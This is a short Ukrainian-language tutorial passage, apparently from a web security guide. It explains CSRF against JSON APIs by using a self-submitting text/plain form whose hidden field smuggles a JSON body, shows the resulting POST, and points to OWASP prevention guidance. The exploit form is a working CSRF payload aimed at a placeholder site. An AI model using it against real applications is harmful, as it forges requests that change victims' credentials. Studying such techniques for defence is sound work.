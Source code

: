 У випадку веб-додатків, у яких розробники використовують JSON для зв’язку між браузером і сервером, може виникнути проблема через відсутність параметрів запиту у форматі JSON, які є обов’язковими для форм, що надсилаються самостійно. Щоб обійти цей випадок, ми можемо використати форму самостійного надсилання з корисними навантаженнями JSON, включаючи приховані введення, для використання CSRF. Нам доведеться змінити тип кодування (enctype) на text/plain, щоб забезпечити доставку корисного навантаження як є. Код експлойта буде виглядати наступним чином:
```
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```
Запит POST буде таким:

```
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```
Коли ці дані надсилаються як запит POST, сервер із задоволенням прийме поля імені та пароля та проігнорує поле з доповненням імені, оскільки воно йому не потрібно.

## Виправлення

Щоб дізнатися про заходи профілактики, перегляньте шпаргалку з профілактики OWASP CSRF.
